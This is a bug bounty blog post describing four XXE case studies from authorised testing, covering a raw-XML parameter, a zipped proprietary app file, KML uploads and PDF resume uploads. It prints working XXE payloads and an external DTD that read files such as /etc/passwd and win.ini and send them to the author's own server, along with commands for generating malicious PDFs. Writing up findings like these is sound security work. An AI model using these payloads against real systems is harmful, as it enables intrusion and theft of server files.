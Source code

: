 ```yaml
---
layout: single
title: XXE Case Studies
date: 2021-07-26
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - XXE
  - Penetration Testing
---
```


As it has been some time since my last blog post, I decided I would set aside some time to write one now. The topic of this blog post is inspired by a bug I found earlier this morning on a bug bounty program.

## XML External Entity (XXE) Attacks
I have always been fascinated by XXE attacks, and in this blog, I will outline some of the checks I perform when bug bounty hunting to identify and exploit these vulnerabilities. 

While XXE vulnerabilities are rare, they are generally quite easy to exploit. Additionally, they almost always result in a high or critical severity. There are many blogs and resources that talk about what an XXE vulnerability is, so instead I will focus more on examples that I have seen. Unfortunately, I will not be able to share complete walkthroughs as many of these bugs are undisclosed.

## Case Study #1: strXML Parameter

When hunting bugs with Burp Suite, I utilize the extension [Burp Bounty]( https://github.com/wagiro/BurpBounty). This allows me to create custom passive and active profiles. One of the passive profiles I utilized a while back would look for XML in every HTTP request. Upon finding it, the extension would create an issue for me to investigate manually.

![](/assets/images/XXE/1.png)  

This alerted me to quite a fun parameter one day while bug bounty hunting. A recreation of the request is shown below.

![](/assets/images/XXE/2.png)  

That’s right, the `strXML` parameter simply took raw XML. Interestingly enough the bulk of it wasn’t even URL encoded! Not sure how this was a validly formatted HTTP request.
Sadly, I was only able to escalate this finding to an internal port scan via SSRF with a payload similar to the following:
```xml
strXML=<?xml version%3D"1.0" encoding%3D"ISO-8859-1"?>
<!DOCTYPE testingxxe [<!ENTITY xxe PUBLIC "xxe" "http://localhost:21/" >
]> 
    <data>
        <xxx>
            <xxx>194147</xxx>
        </xxx>
        <identity>&xxe;</identity>
    </data>

```
Then Burp Intruder was used to iterate through the top 1000 ports. The open ports returned a different content-length than closed ports.

## Case Study #2: XXE via Proprietary Filetype

I stumbled upon this next XXE completely by accident. The web site had functionality that allowed users to build “apps”. Apps could be exported to a propriety file type that I did not recognize. Upon running `strings` on one of these files I discovered it was a zip file. Upon unzipping the file, I was greeted by a beautiful site.

![](/assets/images/XXE/3.png)  

Next, I replaced the contents of one of the XML files with the following XXE payload.
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE cinzinga SYSTEM "http://poc.cinzinga.com/test.dtd">
<cinzinga>&e1;</cinzinga>
```

And the contents of `/test.dtd` hosted on my web server are shown below:
```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

Upon zipping the folder back up, and importing this app, I was greeted with the contents of `C:\Windows\win.ini` sent to my web server.

## Case Study #3: XXE via KML File
I have encountered a number of sites that take more obscure XML file types as input. Multiple times, I have achieved XXE via KML. KML is a type of XML that is specifically used for maps and geographic data.

To exploit these file uploads, I simply download [a sample KML file]( https://developers.google.com/kml/documentation/KML_Samples.kml) and append an XXE payload in the second line.

To exploit the one I identified today, I made use of a great tool developed by a close  [Tib3rius](https://twitter.com/0xTib3rius). The tool can be found [here]( https://github.com/WhiteOakSecurity/Dynamic-DTD).

This app is run with the following command:
```
flask run -p <port> -h <interface-ip>
```
And triggered with the corresponding payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>malicious.dtd?ext=file:///etc/passwd"> %xxe;]>
```

This promptly resulted in the contents of `/etc/passwd` send to my web server.

![](/assets/images/XXE/4.png)  


## Case Study #4: XXE via PDF File

Thus far in my bug bounty career, I have exploited XXE via PDF upload twice. In both cases, the intended functionality was a Resume upload on a careers subdomain. I can only assume that some backend software was scanning the PDFs to extract key information. 

To generate these PDFs, I utilize [this]( https://github.com/StefanMichielse/generate_xxe_payloads) project on GitHub.

I utilize the following command to generate a XXE PDF payload template.
```
ruby oxml_xxe.rb --poc pdf -i 192.168.0.1:8000
```

![](/assets/images/XXE/5.png)  

Next, we can open up the output PDF in a text editor to get a better idea of where the payload is rendered. We can see that the XXE payload is inserted on line 27.
![](/assets/images/XXE/6.png)  

Personally, the PDF payload I utilize is shown below. I have edited the default payload slightly. 

![](/assets/images/XXE/7.png)  

The external dtd is the same as shown above in this blog.

```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

## Case Study #?: XXE via Excel File

While I have not yet obtained XXE via Word or Excel file, it is something I have a payload for and routinely check. There is a great blog [here](https://www.4armed.com/blog/exploiting-xxe-with-excel/) that outlines the steps to develop an Excel XXE payload.


## Conclusion
While this article was brief, I hope it served to highlight some XXE vulnerabilities that I have exploited in the wild. While the bug type is not common, I have reported approximately a dozen XXE vulnerabilities in my bug bounty career. This number certainly warrants adding XXE checks to your arsenal when assessing a web app’s security.
